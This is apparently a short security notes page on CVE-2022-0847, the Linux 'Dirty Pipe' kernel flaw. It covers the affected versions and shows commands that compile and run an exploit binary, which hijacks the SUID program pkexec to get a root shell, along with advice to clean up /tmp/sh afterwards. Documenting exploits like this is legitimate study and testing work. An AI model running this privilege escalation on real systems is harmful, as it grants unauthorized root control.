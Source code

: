 ```yaml
---
title : "CVE-2022-0847"
# pre : ' '
description : "The Dirty Pipe Vulnerability."
date : 2022-03-08T10:20:03+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2022-0847 - The Dirty Pipe Vulnerability

This is the story of CVE-2022-0847, a vulnerability in the Linux kernel since 5.8 which allows overwriting data in arbitrary read-only files. This leads to privilege escalation because unprivileged processes can inject code into root processes.

It is similar to CVE-2016-5195 “Dirty Cow” but is easier to exploit.

The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.

### Compiling

{{%resources fa_icon_class="far fa-file" pattern=".*(c)"/%}}

```plain
$ gcc dirtypipez.c -o dirtypipez

$ file dirtypipez         
dirtypipez: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7aee8d04713d6c27bc73e3f5fb59b1eee5feeaf, for GNU/Linux 3.2.0, not stripped
```

### Exploiting

```plain
$ id
uid=1000(crypt0rr) gid=1000(crypt0rr) groups=1000(crypt0rr)

$ ./dirtypipez /usr/bin/pkexec
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
# 
```

The vulnerable binary is run from `/tmp/sh`. Remember to remove it after using/re-using.

```plain
$ ls -l /tmp/sh
-rwsr-xr-x 1 root crypt0rr 186 Mar  8 10:19 /tmp/sh
```

## URL List

- [Dirtypipe.cm4all.com - The Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)
- [Cve.mitre.org - CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
- [Twitter.com - CVE-2022-0847 Dirty Pipe](https://twitter.com/jas502n/status/1500879361448493056?s=11)
